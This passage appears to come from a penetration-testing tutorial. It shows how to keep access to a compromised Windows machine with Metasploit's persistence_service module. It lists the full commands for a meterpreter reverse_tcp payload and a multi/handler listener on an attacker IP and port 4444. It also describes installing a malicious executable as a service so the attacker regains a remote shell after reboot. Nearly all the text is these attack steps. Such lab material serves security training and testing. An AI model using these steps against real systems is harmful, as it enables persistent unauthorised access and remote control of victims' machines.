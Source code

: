 

Running the service persistence module to maintain access to the compromised
machine.

- exploit/windows/local/persistence_service
- set session 1 
- exploit
- Payload: windows/meterpreter/reverse_tcp 
- LHOST: Attack IP Address.
- LPORT: 4444

Note: By default persistence, the local exploit module uses the following payload and local port
for reverse connection.

We have successfully maintained access. Start another msfconsole and run multi handler to re-gain access. 

Commands: 
- msfconsole -q 
- use exploit/multi/handler 
- set LHOST 10.10.1.2 
- set PAYLOAD windows/meterpreter/reverse_tcp 
- set LPORT 4444 
- exploit

Switch back to the active meterpreter session and reboot the machine.
- session -i 1
- reboot
Once the machine reboots we would expect a new meterpreter session without re-exploitation. This happened because we have added a malicious executable for maintaining access.

Also, the backdoor is running as a service. Even if the session gets killed we would again gain it by re-running the Metasploit multi-handler. In this case, we exit the session and run the handler to gain the session again.